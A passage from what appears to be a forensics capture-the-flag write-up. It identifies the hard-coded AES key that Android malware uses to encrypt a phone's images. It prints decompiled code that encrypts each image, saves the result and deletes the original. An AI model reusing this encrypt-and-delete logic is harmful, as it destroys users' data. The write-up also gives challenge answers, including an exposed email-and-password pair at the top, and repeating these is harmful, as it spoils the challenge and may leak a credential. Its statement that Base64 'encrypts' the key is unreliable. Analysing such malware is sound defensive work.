 > **hany.tarek@brightwave.com:HTarek@9711$QTPO309**

**Q8: The malware altered images stored on the Android phone by encrypting them. What is the encryption key used by the malware to encrypt these images?**

Here is AESUtils class, that using AES algorithm to encrypt file

```java
public class AESUtils {
    private static final String ALGORITHM = "AES/ECB/PKCS5Padding";

    public static byte[] encrypt(byte[] data, SecretKey key) throws Exception {
        Cipher cipher = Cipher.getInstance(ALGORITHM);
        cipher.init(1, key);
        return cipher.doFinal(data);
    }

    public static SecretKey stringToKey(String keyString) {
        byte[] decodedKey = Base64.getDecoder().decode(keyString);
        return new SecretKeySpec(decodedKey, 0, decodedKey.length, ALGORITHM);
    }
}
```
Press X, you can know what class or function using this class (AESUtils)

```java
try {
    Log.d("Image", uri.toString());
    Bitmap bitmap = loadBitmapFromUri(context, uri);
    byte[] pixelArray = bitmapToByteArray(bitmap);
    byte[] encryptedPixels = AESUtils.encrypt(pixelArray, AESUtils.stringToKey("OWJZJHdRNyFjVHo0NjVUWA=="));
    savePixelsToUri(context, encryptedPixels, "img.jpg");
    File fdelete = new File((String) Objects.requireNonNull(getFilePath(context, uri)));
    if (fdelete.exists()) {
        if (fdelete.delete()) {
            Log.d(JSStackTrace.FILE_KEY, "file Deleted :");
        } else {
            Log.d(JSStackTrace.FILE_KEY, "file not Deleted :");
        }
    }
} catch (Exception e10) {
    e10.printStackTrace();
    Log.d("Err", e10.toString());
}
```
Key: **OWJZJHdRNyFjVHo0NjVUWA==** but has been encrypt with Base64:

```java
public static SecretKey stringToKey(String keyString) {
    byte[] decodedKey = Base64.getDecoder().decode(keyString);
    return new SecretKeySpec(decodedKey, 0, decodedKey.length, ALGORITHM);
}
```
